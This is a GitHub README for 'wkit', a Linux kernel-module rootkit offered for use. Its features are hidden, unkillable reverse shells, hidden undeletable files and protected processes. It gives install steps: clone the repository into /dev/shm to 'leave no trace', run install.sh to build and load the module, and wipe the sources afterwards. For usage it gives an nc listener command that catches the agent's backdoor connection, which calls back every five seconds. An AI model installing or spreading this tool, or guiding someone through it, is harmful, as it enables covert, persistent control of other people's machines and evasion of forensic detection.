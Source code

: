 <h1 align="center">
  <img src="assets/showcase.png">
  </br>
  </br>
  wkit | a rootkit for modern kernels
</h1>

a linux loadable kernel module (LKM) rootkit for modern kernels
using a userland agent, it provides a reverse backdoor that 
you can use to create hidden reverse shells, hidding files and
protecting processes.

## features
- support for 5.15+ 64 bit kernels
- create hidden and unkillable reverse shells
- make files hidden, unremovable and unreadable
- make processes hidden and unkillable

## installing
first you should install all the dependencies:
- `build-essential`: gcc and other compile tools 
- `linux-headers`: linux API headers needed for building a LKM 

then clone the repository, to leave no trace on the disk
you can do this inside the `/dev/shm` directory:
```bash
cd /dev/shm
git clone https://github.com/ngn13/wkit.git
cd wkit
```
after that run the `install.sh` script:
```bash
./install.sh
```
this script will:
- check the kernel version and arch
- create new random configuration 
- build the kernel module
- build the userland agent 
- install the userland agent 
- load the kernel module

lastly cleanup the sources:
```bash
cd .. && rm -rf wkit
```

## usage
start a netcat listener on the host and port you specified during
the installation:
```bash
nc -lnvp <port>
```
userland agent attempts to make connection with this address every 
5 seconds, so you should receive a backdoor connection in few seconds


## resources
to learn more about LKMs and rootkits checkout these resources:
- [LKM programming guide](https://sysprog21.github.io/lkmpg/)
- [xcellerator's kernel hacking guide](https://github.com/xcellerator/linux_kernel_hacking)
- [Linux kernel teaching](https://linux-kernel-labs.github.io/refs/heads/master/)

also feel free to create issues if you have any questions - you can also contribute with PRs
